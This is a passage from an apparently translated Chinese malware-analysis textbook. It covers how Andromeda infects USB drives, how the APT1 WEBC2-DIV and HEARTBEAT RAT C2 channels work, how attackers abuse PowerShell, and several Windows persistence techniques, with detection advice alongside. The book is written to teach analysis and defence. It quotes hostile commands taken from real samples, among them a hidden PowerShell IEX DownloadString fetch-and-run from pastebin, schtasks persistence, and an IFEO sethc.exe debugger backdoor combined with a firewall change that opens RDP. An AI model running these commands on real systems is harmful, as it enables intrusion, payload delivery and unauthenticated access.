如果检测到可移动媒体，恶意软件会使用CopyFileA()API将自己（可执行文件）复制到可移动媒体（USB驱动器）。为了隐藏可移动媒体上的文件，它调用SetFileAttributesA()API并传递给它一个常量值FILE_ATTRIBUTE_HIDDEN。



将恶意文件复制到可移动媒体后，攻击者可以等待用户双击复制的文件，或者可以利用自动运行功能。在Windows Vista之前，恶意软件除了复制可执行文件外，还将包含Autorun命令的autorun.inf文件复制到可移动媒体上。这些自动运行命令允许攻击者在媒体被插入系统时自动启动程序（无需用户干预）。从Windows Vista开始，通过Autorun执行恶意二进制文件在默认情况下是不可能的，所以攻击者必须使用不同的技术（如修改注册表项）或利用一个漏洞，这可能允许恶意二进制文件自动执行。

一些恶意软件程序依靠欺骗用户来执行恶意二进制文件，而不是利用自动运行功能。安朵美达就是这样一个恶意软件的例子。为了证明安朵美达使用的伎俩，请看下面的截图，它显示了将2GB的干净USB驱动器插入感染了安朵美达的系统之前的内容。USB的根目录包括一个名为test.txt的文件和一个名为testdir的文件夹。



一旦干净的USB驱动器被插入被安朵美达感染的计算机，它就会执行以下步骤来感染USB驱动器。
1. 它通过调用GetLogicalDriveStrings()确定系统中所有驱动器的列表。
2. 恶意软件迭代每个驱动器，并使用GetDriveType()API确定任何驱动器是否为可移动媒体。
3. 一旦找到可移动媒体，它就调用CreateDirectoryW()API来创建一个文件夹（目录），并传递一个扩展ASCII码xA0（á）作为第一个参数（目录名称）。这就在可移动媒体中创建了一个名为E:á的文件夹，由于使用了扩展ASCII码，该文件夹在显示时没有名称。下面的屏幕截图显示了创建
   E:\á目录的创建。从现在开始，我将把这个由恶意软件创建的目录称为未命名的目录（文件夹）。



下面的屏幕截图显示了未命名的文件夹。这是在上一步骤中创建的具有xA0扩展ascii代码的文件夹。



4. 然后，它通过调用SetFileAttributesW()API，将这个未命名的文件夹的属性设置为隐藏，使其成为受保护的操作系统文件夹。这就隐藏了可移动媒体上的文件夹。



5. 恶意软件从注册表中解密了可执行内容。然后它在未命名的文件夹中创建一个文件。创建的文件名有
   惯例<randomfilename>.1，并将PE可执行内容（恶意DLL）写入该文件（使用CreateFile（）和WriteFile（）API）。结果，在未命名的文件夹内创建了一个名字为<randomfilename>.1的DLL，如图所示。



6. 然后，该恶意软件在未命名的文件夹内创建一个desktop.ini文件，并写入图标信息，为未命名的文件夹分配一个自定义图标。desktop.ini的内容显示在这里。



下面的截图显示了未命名的文件夹的图标，它已被改变为驱动器图标。另外，请注意，未命名的文件夹现在是隐藏的。换句话说，这个文件夹只有在文件夹选项被配置为显示隐藏的和受保护的操作系统文件时才会显示出来。



7. 然后，恶意软件调用MoveFile()API，将所有的文件和文件夹（在这种情况下，test.txt和testdir）从根目录移动到未命名的隐藏文件夹。在复制了用户的文件和文件夹后，USB驱动器的根目录看起来就像这里所示。




8. 然后，该恶意软件创建了一个指向rundll32.exe的快捷链接，而rundll32.exe的参数是<randomfile>.1文件（这就是之前丢在未命名文件夹中的DLL）。下面的截图显示了快捷方式文件的外观，以及显示通过rundll32.exe加载恶意DLL的方式的属性。换句话说，当快捷方式文件被双击时，恶意DLL会通过rundll32.exe加载，从而执行恶意代码。



利用上述操作，安朵美达玩了一个心理把戏。现在，让我们了解一下，当用户在一个干净的系统上插入被感染的USB驱动器时会发生什么。下面的截图显示了被感染的USB驱动器的内容，它显示给正常用户（默认的文件夹选项）。请注意，用户看不到未命名的文件夹，用户的文件/文件夹（在我们的例子中，test.txt和testdir）在根驱动器中丢失。该恶意软件正在欺骗用户，使其相信该快捷方式文件是一个驱动器。



当用户发现USB根驱动器中的所有重要文件和文件夹丢失时，用户极有可能双击该快捷方式文件（认为它是一个驱动器）来寻找丢失的文件。由于双击该快捷方式，rundll32.exe将从未命名的隐藏文件夹（用户不可见）中加载恶意DLL并感染系统。

#### 1.5 恶意软件指挥与控制（C2）

恶意软件的命令和控制（也称为C&C或C2）是指攻击者如何沟通和展示对受感染系统的控制。感染系统后，大多数恶意软件与攻击者控制的服务器（C2服务器）进行通信并接受远程命令、下载附加组件或信息泄露。攻击者使用不同的技术和协议进行命令和控制。传统上，互联网中继聊天（IRC）多年来一直是最常见的C2渠道，但由于IRC在组织中并不常用，所以可以很容易地检测到这种流量。今天，恶意软件用于C2通信的最常见协议是HTTP/HTTPS。使用HTTP/HTTPS允许攻击者绕过防火墙/基于网络的检测系统，并与合法的网络流量混合在一起。恶意软件有时可能使用P2P等协议进行C2通信。一些恶意软件还使用DNS隧道（https://securelist.com/use-of-dns-tunneling-for-cc-communications/78203/）进行C2通信。

##### 1.5.1 HTTP命令和控制

在本节中，你将了解国外安全团队分析的我国APT组织使用HTTP与恶意程序进行通信情况。下面是APT1集团使用的一个恶意软件样本（WEBC2-DIV后门）的例子（https://www.fireeye.com/content/dam/fireeye- www/services/pdfs/mandiant-apt1-report.pdf(已失效)，可以在这里找到相关副本 https://max.book118.com/html/2018/0822/8054126010001121.shtm）。恶意的二进制文件利用了InternetOpen()、InternetOpenUrl()和InternetReadFile()等API函数从攻击者控制的C2服务器接收网页。其网页包含特殊的HTML标签；通过后门对标签内的数据进行解密，并将其解释为一个命令。以下步骤描述了WEB2-DIV后门与C2进行通信以接收命令的方式。

1. 首先，恶意软件调用InternetOpenA()API来初始化与互联网的连接。第一个参数指定了恶意软件将用于HTTP通信的User-Agent。这个后门通过连接受感染系统的主机名（它通过调用GetComputerName()API获得）来生成User-Agent。(它通过调用GetComputerName()API获得）与一个硬编码的字符串。每当你遇到二进制文件中使用的硬编码的User-Agent字符串，它可以成为一个不错的标识攻击者的指标。



2. 然后它调用InternetOpenUrlA()连接到一个URL。如第二个参数所示所连接的URL的名称，如下所示。



3. 下面的截图显示了调用InternetOpenUrlA()后产生的网络流量。thecrownsgolf.org
   调用InternetOpenUrlA()后产生的网络流量。在这个阶段，恶意软件与C2服务器进行通信以读取HTML内容。



4. 然后它使用InternetReadFile()API调用检索网页的内容。这个函数的第二个参数指定了接收数据的缓冲区的指针。下面的截图显示了调用InternetReadFile()后检索到的HTML内容。



5. 从检索的HTML内容中，后门寻找<div> HTML标签内的特定内容。执行检查div标签内的内容的代码显示在以下截图中。如果所需的内容不存在，该恶意软件不做任何事情，并继续定期检查内容。



具体地说，恶意软件希望将内容以特定格式包含在div标签中，如下面的代码所示。如果在检索的HTML内容中发现以下格式，它将提取加密字符串(KxAikuzeG:F6PXR3vFqffP:H)，该字符串包含在之间:

```
<div safe: KxAikuzeG:F6PXR3vFqffP:H balance></div>
```


6. 然后将提取的加密字符串作为参数传给解密函数，该函数使用自定义的加密算法对字符串进行解密。你将在第9章 "恶意软件混淆技术 "中了解更多关于恶意软件的加密技术。下面的截图显示了调用解密函数后的解密字符串。解密字符串后，后门检查解密字符串的第一个字符是否为J，如果满足这个条件，那么恶意软件就会调用sleep()API来睡眠一段特定时间。简而言之，解密字符串的第一个字符作为一个命令代码，它告诉后门执行睡眠操作。



7. 如果被解密的字符串的第一个字符是D，那么它将检查第二个字符是否是O。
   第二个字符是o，如图所示。如果满足这个条件，那么它将提取从第三个字符开始的URL，并使用UrlDownloadToFile()从该URL下载一个可执行文件。然后它使用CreateProcess()API来执行下载的文件。在这种情况下，前两个字符Do作为命令代码，告诉后门下载并执行该文件。



> 关于APT1 WEBC2-DIV后门的全面分析，请查看作者的Cysinfo会议演讲和视频演示（https://cysinfo.com/8th-meetup-understanding-apt1-malware-techniques-using-malware- analysis-reverse-engineering/）。

恶意软件也可能使用API，如
InternetOpen()、InternetConnect()、HttpOpenRequest()、HttpSendRequest()和InternetReadFile()等API来进行HTTP通信。你可以在这里找到一个此类恶意软件的分析和逆向工程：https://cysinfo.com/sx-2nd-meetup-reversing-and-decrypting-thecommunications-of-apt-malware/。

除了使用HTTP/HTTPS，攻击者还可能滥用社交网络（https://threatpost.com/attackers-moving-social-networks-command-and control-071910/74225/）、Pastebin等合法网站（https://cysinfo.com/uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/）和Dropbox等云存储服务（https://www.fireeye.com/blog/threat-research/2015/11/china-based-threat.html）来进行恶意软件命令和控制。这些技术使得监测和检测恶意通信变得困难，而且它们允许攻击者绕过基于网络的安全控制。

#### 1.5.2 定制命令和控制（定制的cc）

攻击者可能使用自定义协议或通过非标准端口进行通信，以隐藏其命令和控制流量。下面是这样一个恶意软件样本的例子（HEARTBEAT RAT），其细节记录在白皮书中（http://www.trendmicro.it/media/wp/the-heartbeat-apt-campaign-whitepaper-en.pdf(已无法找到原文了，无法访问了)）。这个恶意软件使用自定义协议（非HTTP）在80端口进行加密通信，并从C2服务器上获取命令。它利用了
它利用Socket()、Connect()、Send()和Recv()API调用，与C2进行通信并接收命令。


1. 首先，该恶意软件调用WSAStartup()API来初始化Windows套接字系统。然后，它调用Socket()API来创建一个套接字，这在下面的截图中显示。该套接字API接受三个参数。第一个参数
   第一个参数，AF_INET，指定地址族，即IPV4。第二个参数是套接字类型，（SOCK_STREAM），第三个参数，IPPROTO_TCP，指定正在使用的协议（本例中为TCP）。



2. 在建立与套接字的连接之前，恶意软件使用GetHostByName()API解析了C2域名的地址。这是有道理的，因为远程地址和端口需要提供给Connect()API来建立连接。GetHostByName()的返回值（EAX）是一个指向名为hostent的结构的指针，该结构包含解析的IP地址。


3. 它从hostent结构中读取解析后的IP地址，并将其传递给
   inet_ntoa() API，该API将IP地址转换成ASCII字符串，如192.168.1.100。然后调用inet_addr()，它将IP地址字符串（如192.168.1.100）转换为可以被Connect()API使用。然后调用Connect() API来建立与套接字的连接。



4. 然后，恶意软件收集系统信息，使用XOR加密算法对其进行加密（加密技术将在第9章介绍），并使用Send()API调用将其发送到C2。发送（）API的第二个参数显示了将被发送到C2服务器的加密内容。



下面的截图显示了调用Send()API后捕获的加密网络流量。



5. 然后，恶意软件调用CreateThread()来启动一个新线程。CreateThread的第三个参数指定了线程的起始地址（起始函数），因此在调用CreateThread()后，执行开始于起始地址。在这种情况下，线程的起始地址是一个负责从C2中读取内容的函数。




使用Recv()API函数检索C2的内容。Recv()的第二个参数是一个缓冲区，其中存储了检索的内容。然后对检索到的内容进行解密，并根据从C2收到的命令，由恶意软件执行适当的行动。要了解这个恶意软件的所有功能以及它如何处理收到的数据，请参考作者的演讲和视频演示（https://cysinfo.com/session-11-part-2-dissecting-the-heartbeat-apt-rat-features/）。


#### 1.6 基于PowerShell的执行

为了逃避检测，恶意软件作者往往利用系统中已经存在的工具（如PowerShell），这使他们能够隐藏其恶意活动。PowerShell是一个基于.NET框架的管理引擎。这个引擎暴露了一系列被称为cmdlets的命令。该引擎被托管在一个应用程序和Windows操作系统中，该系统默认提供一个命令行界面（互动控制台）和一个GUI PowerShell ISE（集成脚本环境）。

PowerShell不是一种编程语言，但它允许你创建包含多个命令的有用脚本。你也可以打开PowerShell提示符并执行单个命令。PowerShell通常由系统管理员用于合法目的。然而，攻击者使用PowerShell来执行他们的恶意代码的情况也在增加。攻击者使用PowerShell的主要原因是，它提供了对所有主要操作系统功能的访问，而且留下的痕迹非常少，从而使检测更加困难。下面概述了攻击者如何在恶意软件攻击中利用PowerShell。

* 在大多数情况下，Powershell被用来下载其他组件。它大多是通过含有文件（如.lnk、.wsf、JavaScript、VBScript或含有恶意宏的办公文件）的电子邮件附件传递，这些文件能够直接或间接执行PowerShell脚本。一旦攻击者欺骗用户打开恶意附件，那么恶意代码就会直接或间接调用PowerShell来下载额外的组件。
* 它被用于横向移动，攻击者在远程计算机上执行代码，在网络内部传播
* 攻击者使用PowerShell直接从内存动态加载和执行代码，而不访问文件系统。这使得攻击者可以隐身，并使取证分析更加困难。
* 攻击者使用PowerShell来执行他们的混淆代码；这使得传统的安全工具很难发现它。


> 如果你是PowerShell的新手，你可以在以下链接中找到许多教程来开始使用PowerShell：
https://social.technet.microsoft.com/wiki/contents/articles/4307.powershell-for-beginners.aspx

##### 1.6.1 PowerShell命令基础知识

在深入研究恶意软件如何使用PowerShell的细节之前，我们先了解一下如何执行PowerShell命令。你可以使用交互式PowerShell控制台执行PowerShell命令；你也可以使用Windows程序搜索功能或在命令提示符中输入powershell.exe来调出它。一旦进入交互式PowerShell，你就可以输入命令来执行它。在下面的例子中，```Write-Host```cmdlet命令把信息写到了控制台。cmdlet（如Write-Host）是一个用.NET框架语言编写的编译命令，其目的是小型的，并为单一目的服务。cmdlet遵循一个标准的动词-名词命名惯例。

```
PS C:\> Write-Host "Hello world" 
Hello world
```

一个cmdlet可以接受参数。参数以破折号开始，紧接着是参数名称和一个空格，然后是参数值。在下面的例子中，Get-Process cmdlet命令被用来显示关于explorer进程的信息。Get-Process cmdlet接受了一个参数，其名称为Name，其值为explorer。

```
PS C:\> Get-Process -Name explorer
Handles NPM(K) PM(K) WS(K) VM(M) CPU(s) Id ProcessName 
------- ------ ----- ----- ----- ------ -- ----------- 
1613 86 36868 77380 ...35 10.00 3036 explorer
```

另外，你也可以使用参数快捷键来减少一些输入，上述命令也可以写成。

```
PS C:\> Get-Process -n explorer
Handles NPM(K) PM(K) WS(K) VM(M) CPU(s) Id ProcessName 
------- ------ ----- ----- ----- ----- -- ----------- 
1629 87 36664 78504 ...40 10.14 3036 explorer

```

要获得更多关于cmdlet的信息（比如关于语法和参数的细节），你可以使用Get-Help cmdlet或help命令。如果你希望获得最新的信息，你可以使用这里显示的第二条命令，在线获得帮助。

```
PS C:\> Get-Help Get-Process
PS C:\> help Get-Process -online
```

在PowerShell中，变量可以用来存储数值。在下面的例子中，hello是一个前缀为$符号的变量。

```
PS C:\> $hello = "Hello World" 
PS C:\> Write-Host 
$hello Hello World

```

变量也可以保存PowerShell命令的结果，然后该变量可以用来代替命令，如下所示。

```
PS C:\> $processes = Get-Process
PS C:\> $processes | where-object {$_.ProcessName -eq 'explorer'} Handles NPM(K) PM(K) WS(K) VM(M) CPU(s) Id ProcessName
------- ------ ----- ----- ----- ------ -- -----------
1623 87 36708 78324 ...36 10.38 3036 explorer
```

##### 1.6.2 PowerShell脚本与执行策略

PowerShell的功能允许你通过组合多个命令来创建脚本。PowerShell脚本的扩展名是.ps1。默认情况下，你将不被允许执行PowerShell脚本。这是由于PowerShell中默认的执行策略设置阻止了PowerShell脚本的执行。执行策略决定了执行PowerShell脚本的条件。默认情况下，执行策略被设置为 "受限"，这意味着PowerShell脚本（.ps1）不能被执行，但你仍然可以执行单个命令。例如，当Write-Host "Hello World "命令被保存为PowerShell脚本（hello.ps1）并执行时，你会得到以下信息，说明运行脚本被禁用。这是由于执行策略的设置。

```
PS C:\> .\hello.ps1
.\hello.ps1 : File C:\hello.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\hello.ps1
+ ~~~~~~~~~~~
+ CategoryInfo : SecurityError: (:) [], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess
```

执行策略不是一个安全功能，它只是一个防止用户意外执行脚本的控制手段。要显示当前的执行策略设置，你可以使用下面的命令。

```
PS C:\> Get-ExecutionPolicy 
Restricted
```

你可以使用Set-ExecutionPolicy命令来改变执行策略的设置（前提是你是以管理员身份执行该命令）。在下面的例子中，执行策略被设置为Bypass，这允许脚本不受任何限制的运行。如果你遇到一个恶意的PowerShell脚本，如果你想执行它以确定它的行为，这个设置对你的分析很有用。

```
PS C:\> Set-ExecutionPolicy Bypass 
PS C:\> .\hello.ps1
Hello World

```

##### 1.6.2 分析PowerShell命令/脚本
与汇编代码相比，Powershell命令很容易理解，但在某些情况下（比如PowerShell命令被混淆了），你可能想运行PowerShell命令来了解它的工作原理。测试单个命令的最简单方法是在交互式PowerShell中执行它。如果你想执行一个包含多个命令的PowerShell脚本（.ps1），首先将执行策略设置改为Bypass或Unrestricted（如前所述），然后使用PowerShell控制台执行该脚本。记住要在一个隔离的环境中执行恶意的脚本。
在PowerShell提示符下运行脚本（.ps1）将一次性运行所有命令。如果你想控制执行，那么你可以使用PowerShell ISE（集成脚本环境）调试PowerShell脚本。你可以通过使用程序搜索功能调出PowerShell ISE，然后将PowerShell脚本加载到PowerShell ISE中，或者复制粘贴一个命令并使用其调试功能（如Step Into、Step Over、Step Out和Breakpoints），可以通过调试菜单访问。调试前，确保将执行策略设置为Bypass。



##### 1.6.3 攻击者是如何使用PowerShell的

在了解了基本的PowerShell和使用什么工具进行分析后，现在让我们看看攻击者是如何使用PowerShell的。由于通过PowerShell控制台或双击执行PowerShell脚本（.ps1）的限制（这将在记事本中打开，而不是执行脚本），不太可能看到攻击者直接向受害者发送PowerShell脚本。攻击者必须首先欺骗用户执行恶意代码；这主要是通过发送含有.lnk、.wsf、javascript或恶意宏文件等文件的电子邮件附件来实现。一旦用户被骗打开附件文件，恶意代码就可以直接调用PowerShell（powerhell.exe），或通过cmd.exe、Wscript、Cscript等间接调用。在PowerShell被调用后，可以使用各种方法绕过执行策略。例如，为了绕过执行限制策略，攻击者可以使用恶意代码调用powershell.exe，并通过Bypass执行策略标志，如下图所示。即使用户不是管理员，这种技术也会起作用，它可以覆盖默认的执行限制策略并执行脚本。



以同样的方式，攻击者使用各种PowerShell命令行参数来绕过执行策略。下表概述了用于逃避检测和绕过本地限制的最常见的PowerShell参数。

|命令行参数|描述|
|---|---|
|ExecutionPolicy Bypass （-Exec bypass) |忽略执行策略的限制，不加警告地运行脚本|
|WindowStyle 隐藏 (-W Hidden) |隐藏PowerShell窗口|
|NoProfile (-NoP) |忽略配置文件中的命令|
|EncodedCommand (-Enc) |执行以Base64编码的命令|
|NonInteractive (-NonI) |不向用户显示交互式提示|
|Command (-C) |执行单个命令|
|File (-F) |执行指定文件中的命令|


除了使用PowerShell命令行参数，攻击者还在PowerShell脚本中使用cmdlet或.NET APIs。以下是最经常使用的命令和功能。

* Invoke-Expression（IEX）: 这个cmdlet评估或执行一个指定的字符串作为一个命令。
* Invoke-Command: 这个cmdlet可以在本地或远程计算机上执行PowerShell命令。
* Start-Process: 这个小程序从一个给定的文件路径启动一个进程
* DownloadString: 这个方法来自System.Net.WebClient（WebClient类），从一个URL中下载资源为一个字符串
* DownloadFile(): 该方法来自System.Net.WebClient（WebClient类），将资源从URL下载到本地文件。

下面是作者博客（https://cysinfo.com/cyber-attack-targeting-indian-navys- submarine-warship-manufacturer/）中提到的一个攻击中使用的PowerShell下载器的例子。在这种情况下，PowerShell命令通过cmd.exe被包含在微软Excel表格中的恶意宏调用，该表格是以电子邮件附件形式发送给受害者的。
PowerShell将下载的可执行文件作为doc6.exe丢在%TEMP%目录下。然后，它为被丢弃的可执行文件添加了一个注册表项，并调用eventvwr.exe，这是一种有趣的注册表劫持技术，允许doc6.exe被eventvwr.exe以高完整性级别执行。这种技术还默默地绕过了UAC（用户账户控制）。



以下是一个目标攻击的PowerShell命令（https://cysinfo.com/ uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/）。在这种情况下，PowerShell被恶意宏调用，而不是直接下载可执行文件，而是使用DownloadString方法从Pastebin链接下载base64内容。在下载了编码的内容后，它被解码并丢到磁盘上。

```
powershell -w hidden -ep bypass -nop -c "IEX ((New-ObjectNet.WebClient).DownloadString('http://pastebin.com/raw/[removed]'))"
```

在下面的例子中，在调用PowerShell之前，一个恶意软件投放者首先在%Temp%目录下写了一个扩展名为.bmp的DLL（heiqh.bmp），然后通过PowerShell启动rundll32.exe来加载DLL并执行DLL的导出函数dlgProc。

```
PowerShell cd $env:TEMP ;start-process rundll32.exe heiqh.bmp,dlgProc
```

> 关于恶意软件攻击中使用的不同PowerShell技术的更多信息，请参阅白皮书。在攻击中越来越多地使用PowerShell。
> https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf。攻击者利用各种混淆技术来增加分析难度。要了解攻击者如何使用PowerShell混淆技术，请观看Daniel Bohannon在Derbycon上的演讲。
> Bohannon: https://www.youtube.com/watch?v=P1lkflnWb0I。

### 2. 恶意软件的持久性方法

通常情况下，攻击者希望他们的恶意程序留在被攻击的计算机上，甚至在Windows重新启动时也是如此。这是通过各种持久性方法实现的；这种持久性允许攻击者留在被攻击的系统上，而不需要重新感染它。有许多方法可以在每次Windows启动时运行恶意代码。在本节中，你将了解攻击者使用的一些持久性方法。本节所涉及的一些持久性技术允许攻击者以高权限执行恶意代码（权限升级）。

#### 2.1  运行注册表键

攻击者用来在重启后自动执行的最常见的持久性机制之一是通过在运行注册表键上添加一个条目来实现。被添加到运行注册表键的程序在系统启动时被执行。下面是一个最常见的运行注册表键的列表。除了这里提到的那些之外，恶意软件还可以将自己添加到各种自动启动位置。了解各种自动启动位置的最好方法是使用Sysinternals的AutoRuns工具（https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns）。

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

在下面的例子中，执行时，恶意软件（bas.exe）首先在Windows目录中投放一个可执行文件（LSPRN.EXE），然后在运行注册表键中添加以下条目，以便每次系统启动时恶意程序可以启动。从注册表项可以看出，恶意软件正试图使其二进制文件看起来像一个与打印机有关的应用程序。

```
[RegSetValue] bas.exe:2192 > HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run\PrinterSecurityLayer = C:\Windows\LSPRN.EXE
```

为了检测使用这种持久性方法的恶意软件，你可以监测与已知程序无关的运行注册表键的变化。你还可以使用Sysinternal的AutoRuns工具来检查自动启动位置的可疑条目。

#### 2.2 预定的任务
攻击者使用的另一种持久性方法是部署一个计划任务，让他们在指定时间或在系统启动时执行他们的恶意程序。诸如schtasks和at之类的Windows工具通常被攻击者用来设置程序或脚本在特定的的日期和时间执行。通过使用这些工具，只要用于创建任务的账户是管理员组的，攻击者可以在本地计算机或远程计算机上创建任务。在下面的例子中，恶意软件（sub.exe）首先在%AllUsersProfile%中创建一个名为service.exe的文件。
在%AllUsersProfile%\WindowsTask\目录下创建一个名为service.exe的文件，然后调用cmd.exe，该文件又使用schtasks Windows工具来创建一个持久的计划任务。

```
[CreateFile] ssub.exe:3652 > %AllUsersProfile%\WindowsTask\service.exe [CreateProcess] ssub.exe:3652 > "%WinDir%\System32\cmd.exe /C schtasks /create /tn MyApp /tr %AllUsersProfile%\WindowsTask\service.exe /sc ONSTART /f"
[CreateProcess] cmd.exe:3632 > "schtasks /create /tn MyApp /tr
%AllUsersProfile%\WindowsTask\service.exe /sc ONSTART /f
```

为了检测这种类型的持久性，可以使用Sysinternals Autoruns或任务调度器工具来列出当前安排的任务。你应该考虑监控那些与合法程序无关的任务的变化。你还可以监控传递给系统工具（如cmd.exe）的命令行参数，这些工具可能被用来创建任务。任务也可能是使用管理工具创建的，如PowerShell和Windows Management Instrumentation（WMI），所以适当的日志和监控应该有助于检测这种技术。

#### 2.3 启动文件夹

攻击者可以通过在启动文件夹中添加其恶意二进制文件来实现持久性。当操作系统启动时，启动文件夹会被查找，驻留在该文件夹中的文件会被执行。Windows操作系统维护两种类型的启动文件夹。(a) 用户范围和(b) 系统范围，如下图所示。驻留在用户启动文件夹中的程序只对特定用户执行，而驻留在系统文件夹中的程序则在任何用户登录系统时执行。要使用全系统的启动文件夹实现持久性，需要管理员权限。

```
C:\%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

在下面的例子中，恶意软件（Backdoor.Nitol）首先在%AppData%目录中投放了一个文件。然后，它创建了一个快捷方式（.lnk），指向所投放的文件，然后将该快捷方式添加到启动文件夹中。这样，当系统启动时，被丢弃的文件会通过快捷方式（.lnk）文件执行。

```
[CreateFile] bllb.exe:3364 > %AppData%\Abcdef Hijklmno Qrs\Abcdef Hijklmno Qrs.exe
[CreateFile] bllb.exe:3364 > %AppData%\Microsoft\Windows\Start Menu\Programs\Startup\Abcdef Hijklmno Qrs.exe.lnk
```

为了检测这种类型的攻击，你可以监测在启动文件夹中添加的条目和做出的更改。


#### 2.4 Winlogon注册表项

攻击者可以通过修改Winlogon进程使用的注册表项来实现持久性。Winlogon进程负责处理交互式用户登录和注销。一旦用户被验证，winlogon.exe进程就会启动userinit.exe，它运行登录脚本并重新建立网络连接。userinit.exe然后启动explorer.exe，它是用户的默认外壳。
winlogon.exe进程启动userinit.exe是由于以下的注册表值。这个条目指定了当用户登录时，哪些程序需要由Winlogon执行。默认情况下，这个值被设置为userinit.exe的路径（C:\Windows\system32\userinit.exe）。攻击者可以改变或添加另一个包含恶意可执行文件路径的值，然后将由winlogon.exe进程（当用户登录时）启动。

````
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
````

以同样的方式，userinit.exe查询以下注册表值来启动默认的用户外壳。默认情况下，这个值被设置为explorer.exe。攻击者可以改变或添加另一个包含恶意可执行程序名称的条目，然后由userinit.exe启动。

````
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

````

在下面的例子中，Brontok蠕虫通过用其恶意的可执行文件修改下列Winlogon注册表值来实现持久性。



为了检测这种类型的持久性机制，可以使用Sysinternals Autoruns工具。如前所述，你可以监测注册表中的可疑条目（与合法程序无关）。

#### 2.5 IFEO 镜像文件执行选项 (**Image File Execution Options**)

镜像文件执行选项（IFEO）允许人们在调试器下直接启动一个可执行文件。它使开发者可以选择调试他们的软件，以调查可执行文件启动代码中的问题。开发者可以在以下注册表键下用他/她的可执行文件的名称创建一个子键，并将调试器的值设置为调试器的路径。

```
Key: "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable name>"
Value: Debugger : REG_SZ : <full-path to the debugger>
```

进攻者利用这个注册表键来启动他们的恶意程序。为了演示这种技术，通过添加以下注册表项，将notepad.exe的调试器设置为计算器（calc.exe）进程。



现在，当你启动记事本时，它将被一个计算器程序启动（尽管它不是一个调试器）。这种行为可以在下面的屏幕截图中看到。



下面是一个恶意软件样本（TrojanSpy:Win32/Small.M）的例子，它将其恶意程序iexplor.exe配置为Internet的调试器explorer, (iexplore.exe)。这是通过添加以下注册表值实现的。在这种情况下，攻击者选择了一个看起来与合法的internet explorer可执行文件名相似的文件名。由于以下注册表项的存在，每当合法的internet explorer（iexplore.exe）被执行时，它就会被恶意程序iexplor.exe启动，从而执行恶意代码。

```
[RegSetValue] LSASSMGR.EXE:960 > HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe\Debugger = C:\Program Files\Internet Explorer\iexplor.exe
```

为了检测这种类型的持久性技术，你可以检查镜像文件执行选项注册表项，看是否有与合法程序无关的修改。

#### 2.6 无障碍项目

Windows操作系统提供了各种无障碍功能，如屏幕键盘、叙述者、放大镜、语音识别等。这些功能主要是为有特殊需要的人设计的。这些无障碍程序甚至不用登录系统就可以启动。例如，许多这些辅助功能程序可以通过按下Windows+U组合键来访问，从而启动C:\Windows\System32\utilman.exe，或者你可以通过按五次shift键来启用粘性键，这将启动程序C:\Windows\System32\sethc.exe。攻击者可以改变这些无障碍程序（如sethc.exe和utilman.exe）的启动方式，以执行他们选择的程序，或者他们可以使用cmd.exe来提升权限（权限升级）。

攻击者利用粘性密钥（sethc.exe）功能，通过远程桌面（RDP）获得未经认证的访问。
远程桌面（RDP）。在Hikit Rootkit的案例中，（https://www.fireeye.com/blog/threat-research/2012/08/hikit-rootkit-advanced-persistent-attack-techniques-part-1.html）(由于目前该文章已经被删，大家可以参考类似的文章：https://strontic.github.io/xcyclopedia/library/sethc.exe-8BA3A9702A3F1799431CAD6A290223A6.html)合法的sethc.exe程序被替换成cmd.exe。这使得攻击者只需按五次shift键，就可以通过RDP以系统权限访问命令提示符。虽然在旧版本的Windows中，可以用另一个程序替换无障碍程序，但新版本的Windows执行了各种限制，如被替换的二进制文件必须位于%systemdir%，需要对x64系统进行数字签名，并且必须受Windows文件或资源保护（WFP/WRP）保护。这些限制使得攻击者很难替换合法程序（如sethc.exe）。为了避免替换文件，敌方利用了图像文件执行选项（在上一节中涉及）。下面的注册表项将cmd.exe设置为sethc.exe的调试器；现在，攻击者可以使用RDP登录并按五次Shift键以获得对系统级命令行的访问。使用这个外壳，攻击者甚至可以在认证之前执行任何任意的命令。以同样的方式，一个恶意的后门程序可以通过设置为sethc.exe或utilman.exe的debugger来执行。

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

在下面的例子中，当恶意软件样本（mets.exe）被执行时，它会运行以下命令，修改防火墙规则/注册表以允许RDP连接，然后添加一个注册表值，将任务管理器（taskmgr.exe）设为sethc.exe的调试器。这允许攻击者通过RDP访问taskmgr.exe（具有系统权限）。使用这种技术，攻击者可以通过RDP杀死一个进程或启动/停止一个服务，甚至不需要登录到系统中。

```
[CreateProcess] mets.exe:564 > "cmd /c netsh firewall add portopening tcp 3389 all & reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f & REG ADD HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe /v Debugger /t REG_SZ /d %windir%\system32\taskmgr.exe /f"
```

